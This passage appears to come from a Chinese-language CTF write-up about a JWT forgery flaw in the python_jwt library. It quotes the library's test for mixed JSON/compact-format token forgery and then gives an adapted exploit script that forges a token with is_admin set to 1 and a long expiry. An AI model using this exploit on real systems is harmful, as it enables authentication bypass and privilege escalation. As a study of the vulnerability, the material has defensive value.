 ```python
        """ Make a forged token """
        def topic(self, topic):
            """ Use mix of JSON and compact format to insert forged claims including long expiration """
            [header, payload, signature] = topic.split('.')
            parsed_payload = loads(base64url_decode(payload))
            parsed_payload['sub'] = 'bob'
            parsed_payload['exp'] = 2000000000
            fake_payload = base64url_encode((dumps(parsed_payload, separators=(',', ':'))))
            return '{"  ' + header + '.' + fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'

        class Verify(Vows.Context):
            """ Check the forged token fails to verify """
            @Vows.capture_error
            def topic(self, topic):
                """ Verify the forged token """
                return jwt.verify_jwt(topic, generated_keys['PS256'], ['PS256'])

            def token_should_not_verify(self, r):
                """ Check the token doesn't verify due to mixed format being detected """
                expect(r).to_be_an_error()
                expect(str(r)).to_equal('invalid JWT format')
```

注意这一点注释：`"Use mix of JSON and compact format to insert forged claims including long expiration"`可以得知，这个漏洞的本质就是利用 json格式的注⼊  

如果稍加改造，我们就可以获得一个EXP：

```python
from datetime import timedelta
from json import loads, dumps
from common import generated_keys
import python_jwt as jwt
from pyvows import Vows, expect
from jwcrypto.common import base64url_decode, base64url_encode

def topic(topic):
    """ Use mix of JSON and compact format to insert forged claims including long expiration """
    [header, payload, signature] = topic.split('.')
    parsed_payload = loads(base64url_decode(payload))
    parsed_payload['is_admin'] = 1
    parsed_payload['exp'] = 2000000000
    fake_payload = base64url_encode(
        (dumps(parsed_payload, separators=(',', ':'))))
    # print (header+ '.' +fake_payload+ '.' +signature)
    # print (header+ '.' + payload+ '.' +signature)
    return '{"  ' + header + '.' + fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'

originaltoken = '''eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE2NjcxNDE5MTUsImlhdCI6MTY2NzE0MTYxNSwiaXNfYWRtaW4iOjAsImlzX2xvZ2luIjoxLCJqdGkiOiI1dnBYUmNpck1semxNUG54MHNTWDd3IiwibmJmIjoxNjY3MTQxNjE1LCJwYXNzd29yZCI6ImY2MWQiLCJ1c2VybmFtZSI6ImY2MWQifQ.cqQ2RVegORBfB_fo33birEJs8Tw8WDM7wIYwfXz_BpW6gQG99cl-DePmP6iNx5Mf0aCwDcuqS-wOXjis7JVmhpf8dmdYkP_gLvYMULpPcFX03j70Cu3bhMWSAGUMjt_IFGQ1-xfwYp1LI9SWAlBM5wDPCh-gi96abRDvhRW-c-6mFul2us_XKl7kyceT2fY2ABrcJRSKA91kLm3ZOcD4FA6yuHMyKVfmN9RqPtzvvUVutniv03XPFTGIzHudzswRc0b3nN-XMsnyi_Ca62T8CVb1MMEDPVlDM7CDJmJXGfoNimkrOhPi22SItpv4tO7u-bbene3PpvW1Lv7UEQeDBg'''

topic = topic(originaltoken)
print(topic)
```
